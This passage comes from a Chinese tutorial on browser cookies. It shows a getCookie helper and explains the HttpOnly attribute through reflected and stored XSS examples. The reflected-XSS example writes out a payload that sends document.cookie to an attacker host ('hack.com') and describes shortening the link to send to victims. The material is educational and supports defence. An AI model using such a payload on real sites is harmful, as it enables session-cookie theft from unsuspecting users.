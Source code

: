 - **查**  
  我们仅能通过`document.cookie` 查询到所有的键与值，无法查询其具体的属性，每个不同的Cookie通过`;` 分割  
  ![](Cookies%E5%AE%8C%E5%85%A8%E6%8C%87%E5%8D%97%20cd91476ff44d458fb79da39279ecd48c/Untitled%2010.png) ![](0f9a57b89451d4e9c06dcf0ca5cd37c2.png)

```tsx
function getCookie(cookieName) {
    const strCookie = document.cookie;
    const cookieList = strCookie.split("; ");

    for (let i = 0; i < cookieList.length; i++) {
        const arr = cookieList[i].split("=");
        if (cookieName === arr[0].trim()) {
            return decodeURIComponent(arr[1]);
        }
    }

    return "";
}
```

### **HttpOnly**

`HttpOnly`要求浏览器不要通过HTTP（和HTTPS）以外的渠道使用cookie，也就是说只能通过Http的响应头里进行`Set-Cookie` , 用户无法在js代码中去操作与读取该Cookie。这个属性主要是用来缓解XSS攻击的。

我们可以看下面两个例子

**反射型XSS窃取Cookie**

反射型XSS攻击指攻击者在页面中插入恶意Java Script脚本，该脚本随着HTTP/HTTPS请求数据一起发送给后端服务器，服务器对其进行响应，浏览器接收响应后将其解析渲染。恶意脚本的执行路径为“浏览器-服务器-浏览器”。浏览器中的恶意脚本发送到服务器，服务器直接对应资源返回浏览器中解析执行，整个过程类似于反射。

假设我们在百度上搜索内容，就会跳转以下页面。

`https://www.baidu.com/search?input=searchText`

之后返回的页面中会携带下面的内容

`<p>以下是搜索{searchText}的所有结果</p>`

这时我将`searchText` 改为如下的字符串

`<img src="notfound.png" onerror="location.href='http://hack.com/?cookie='+document.cookie'">`

接着我再把整个链接进行转码或者转短链接化，发送给用户，用户点击后在baidu上的cookie就会比自动发送到我们的hack服务器内。

**存储型XSS窃取Cookie**

存储型XSS攻击指攻击者在服务器的数据库中插入恶意Java Script脚本，当用户访问网站时，恶意脚本被发送到浏览器进行解析执行。

最经典的一个评论区案例

我在某网站的评论区直接输入一串JS代码

![](a608948e7c9cf0f5405f0b5e15fa673c.png)![](Cookies%E5%AE%8C%E5%85%A8%E6%8C%87%E5%8D%97%20cd91476ff44d458fb79da39279ecd48c/Untitled%2011.png)

如果前端与后端均没有对其进行过滤，那么该评论被写入到数据库中，所有访问该页面的用户信息都会被窃取。
